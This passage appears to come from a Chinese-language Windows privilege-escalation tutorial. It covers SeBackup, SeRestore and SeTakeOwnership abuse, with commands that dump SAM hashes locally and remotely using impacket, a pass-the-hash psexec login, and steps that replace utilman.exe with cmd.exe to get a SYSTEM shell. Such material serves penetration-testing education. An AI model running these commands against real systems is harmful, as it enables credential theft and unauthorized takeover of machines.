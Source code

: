将其拖到本机读取哈希。

```plaintext
python /impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
```

如果有此用户账户甚至可以远程导哈希。

```plaintext
python /impacket/examples/secretsdump.py <UserName>:<Password>@<Host>
```

获取到哈希进行 PTH。

```plaintext
python /impacket/examples/psexec.py -hashes <Hash> <UserName>@<Host>
```

#### 1.2.2 SeRestorePrivilege

SeRestorePrivilege 权限用于给恢复设置的用户设置的，域中是 Backup Operators 组成员，启用此权限后可以向系统上任何地方写入内容。Windows 10 还是一样，需要高完整度才有此权限。

可以尝试 DLL 劫持，很多应用都是 System32 下的 DLL。

或者尝试替换 utilman.exe 成为 System。

> 1.  Launch PowerShell/ISE with the SeRestore privilege present.
> 2.  Enable the privilege with [Enable-SeRestorePrivilege](https://github.com/gtworek/PSBits/blob/master/Misc/EnableSeRestorePrivilege.ps1)).
> 3.  Rename utilman.exe to utilman.old
> 4.  Rename cmd.exe to utilman.exe
> 5.  Lock the console and press Win+U
> 
> [https://github.com/gtworek/Priv2Admin#:~:text=Microsoft%20here.-,SeRestore,-Admin](https://github.com/gtworek/Priv2Admin#:~:text=Microsoft%20here.-,SeRestore,-Admin)

#### 1.2.3 SeTakeOwnershipPrivilege

SeTakeOwnershipPrivilege 权限有权设置任何内容的所有者。这个所有者和 Linux 文件 ownner 一致，代表你当前有权管理它。

![所有者.png](assets/1698895488-703bbd753413ba191826bdc29f490a0f.png)
